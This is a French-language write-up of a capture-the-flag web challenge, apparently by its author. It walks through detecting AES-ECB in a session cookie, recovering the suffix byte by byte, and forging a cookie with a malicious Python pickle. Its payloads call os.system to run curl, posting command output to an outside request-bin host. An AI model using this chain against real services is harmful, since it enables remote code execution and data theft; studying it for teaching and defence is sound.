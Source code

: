 # Writeup

## Première étape : AES ECB

On nous présente un site web, avec un système d'utilisateur permettant de voter
pour son poney favoris.

Il faut d'abord remarquer que lorsque l'on se connecte, on obtient un cookie en
hexadécimal. Ce cookie contient surement des informations relatif au compte. On
peut se douter qu'il contient l'id de l'utilisateur, au moins.

Il faut penser à créer plusieurs comptes avec des noms d'utilisateurs très
long pour voir que la taille de ce cookie augmente.

En se créant un compte avec l'username XXXXXXXXXXXXXXXXXXXX, on obtient le cookie:
146c0c4e3d2cf71e9adb8b49ade50078775d45d3555a4e2d881de94c90f0609528b57db930b567fc2ed798d26fbb2b42

Avec l'username XXXXXXXXXXXXXXXXXXXY (dernier caractère différent), on obtient:
0fe35a7a39913b66ab3bf3f7116d781a775d45d3555a4e2d881de94c90f06095ce5bc5e4c345a909c627c3f7ffbcbe30

On peut remarquer la répétition de 775d45d3555a4e2d881de94c90f06095, qui fait
exactement 16 octets. On se doute donc que le cookie est chiffré avec un mode
opératoire ECB: https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Electronic_Codebook_.28ECB.29

Chaque block est chiffré indépendemment des autres, ce qui rend le chiffrement
très vulnérable. On se doute donc que 'X' * 16 est chiffré en
775d45d3555a4e2d881de94c90f06095.

Au final, on peut se douter que le chiffrement est de l'AES, mais on n'a pas
besoin de cette information pour résoudre le challenge. Il faut uniquement
remarquer que c'est de l'ECB.

## Seconde étape : récupérer le suffixe

On se doute donc que notre cookie est chiffré et contient notre username. Une
attaque courante de l'ECB permet de récupérer tout ce qui est chiffré après
notre username dans le cookie (le suffixe).

cookie = AES-ECB(préfixe + username + suffixe)

La technique est simple: on va d'abord faire en sorte que notre username termine
un block. Pour ça, on va chiffrer 'A' * i, avec i de 1 jusqu'à l'infini, jusqu'à
obtenir 2 fois le même block.

ATTENTION: Comme on doit toujours avoir un username unique, dans mon script,
je préfixe toujours mon username avec 4 caractères aléatoires.
ATTENTION: Si un challenger est bloqué, il faut lui conseiller cette technique.
S'il ajoute seulement 1 ou 2 caractères aléatoires, il va tomber sur des
usernames déjà pris par d'autres équipes (d'après mes tests) et perdre du temps
sans comprendre le problème.

Dans notre cas, on remarque qu'avec un username de longueur 50, on trouve 2
fois le même block:

12abb65223b044a069083688f1a5c380b989aa08f3e62b0cae9bc45cf89f54c05e98d92e0ac1e56557d63a3ef02cb7a65e98d92e0ac1e56557d63a3ef02cb7a6c3b30495a05eaf17b2ae129b6c002d95

Si on découpe en block de 16 octets (donc 32 caractères hexa):

'12abb65223b044a069083688f1a5c380', 'b989aa08f3e62b0cae9bc45cf89f54c0', '5e98d92e0ac1e56557d63a3ef02cb7a6', '5e98d92e0ac1e56557d63a3ef02cb7a6', 'c3b30495a05eaf17b2ae129b6c002d95'
                                                                         username[18:34],                    username[34:50]

Les blocks 3 et 4 sont identiques. On en déduit donc qu'avec un username de
longueur 50 - 2 * 16 = 18, on tombe à la fin d'un block.

On va donc s'enregistrer avec comme username = 'X' * 18 + 'X' * 15, de cette
façon on sait que le 3ième block correspondra a AES-ECB('X' * 15 + suffixe[0]).

On va tester tous les caractères possibles c, on s'enregistre avec
'X' * 18 + ('X' * 15 + c), et on s'arrête quand on retrouve le même block que
précédemment:

AES-ECB('X' * 15 + suffixe[0]) = AES-ECB('X' * 15 + c)

Il faut bien tenter avec toutes les valeurs de c entre 0 et 255.

On peut continuer avec la même technique pour obtenir tout le suffixe.

On obtient: suffixe = 'q\x01Ne.\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'

Utiliser ./solving_script.py --full pour trouver le même résultat

## Troisième étape: pickle

On se rend compte qu'il s'agit du format pickle: https://docs.python.org/2/library/pickle.html

Ce n'est pas forcément simple à voir, mais le titre du challenge est un indice.

Maintenant, on doit se douter que cookie = AES-ECB(PICKLE([user_id, username, None]))
En fait, le None correspond au vote, mais on s'en fiche.

On sait que pickle n'est pas safe et permet d'éxécuter du code arbitraire:
https://blog.nelhage.com/2011/03/exploiting-pickle/

Ici, on va utiliser le mode ECB pour forger son propre cookie.

Il suffit de s'enregistrer avec username = 'X' * 18 + pickle(16 octets) et de
récupérer le 3-ième block.

On va essayer d'éxécuter os.system('curl -X POST -d "$(id)" http://requestb.in/xxxx'):

```
class A:
    def __reduce__(self):
        return (os.system, (('curl -X POST -d "$(id)" http://requestb.in/xxxx',),))

print(pickle.dumps(A()))
```

### Python 3

En python 3, on obtient:

b'\x80\x03cposix\nsystem\nq\x00X\x1c\x00\x00\x00curl -X POST -d "$(id)" http://requestb.in/xxxxq\x01\x85q\x02\x85q\x03Rq\x04.'

Le problème, c'est que ce payload contient des octets > 128.
Le champ username attend de l'UTF-8, comme on peut se douter. Si l'on injecte
'\x85' par exemple, il va être encodé avec 2 octets en UTF8: '\xc2\x85', ce qui
casse notre pickle.

ATTENTION: Si un challenger est bloqué, il faut peut-être lui parler de ce soucis.

Le challenge est donc de construire un pickle ne contenant que des octets < 128.
Pour ça, il faut se renseigner sur le format de pickle:
https://github.com/p4-team/ctf/tree/master/2015-12-27-32c3/gurke_misc_300#eng-version

Personnellement, j'ai regardé directement le code python: /usr/lib/python3.5/pickle.py

Au final, voici mon payload:

```
>>> inject = b'cposix\nsystem\n' # push os.system (load_global)
>>> inject += b'(' # push mark (load_mark)
>>> inject += b'X' + struct.pack('<I', len(cmd)) + cmd # push cmd (load_binunicode)
>>> inject += b't' # stack[k:] = [tuple(stack[k+1:])] (load_tuple)
>>> inject += b'R' # stack[-2](stack[-1]) (load_reduce)
```

On push os.system, puis un marker, puis notre commande, puis on utilise t pour
pop tout jusqu'au marker et construire un tuple, puis on appel reduce.

### Python 2

En python 2, on obtient:

'cposix\nsystem\np0\n((S\'curl -X POST -d "$(id)" http://requestb.in/xxxx\'\np1\ntp2\ntp3\nRp4\n.'

Ce qui ne pose aucun soucis comparé à python 3.

### Injection du payload

NOTE: Au final, l'utilisateur peut crafter son payload avec python 2 ou
python 3, ça devrait marcher (modulo l'UTF-8, voir plus haut).

Ensuite, il suffit de jouer avec les blocks pour former le cookie souhaité. On
veut obtenir: AES(PICKLE([user_id, 'X' * 18, pickle, ...]))

On s'enregistre donc avec 'X' * 18 et on récupère les 2 premiers blocks.
Ensuite, on s'enregistre avec 'X' * 18 + pickle + padding et on récupère les
blocks qui correspondent à notre pickle (donc à partir du 3ième block).
On concatène tout ça, et on fait une requête HTTP avec ce cookie, et bim, le
serveur éxécute notre commande.

Ensuite, on a un shell. Il suffit de remplacer id par la commande voulue.
Pour terminer, on cat /flag, et le résultat doit apparaitre dans le requestb.in

